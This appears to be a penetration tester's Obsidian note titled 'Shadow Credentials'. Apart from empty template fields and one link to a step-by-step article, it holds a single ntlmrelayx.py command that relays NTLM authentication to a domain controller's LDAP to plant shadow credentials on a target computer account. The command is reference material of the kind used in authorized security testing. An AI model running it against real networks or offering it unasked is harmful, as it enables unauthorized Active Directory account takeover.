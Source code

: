 ```yaml
---
creation date: January 27th 2022
last modified date: January 27th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Shadow Credentials]]  
___

## Description:  

```bash
ntlmrelayx.py -t ldap://<dc-ip> --shadow-credentials --shadow-target '<computer-name>$' -smb2support --no-dump --no-da --no-acl --no-validate-privs
``````

___

## Resources:

| Hyperlink | Info |
| https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay | step-by-step |


Created Date: January 27th 2022 (02:57 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
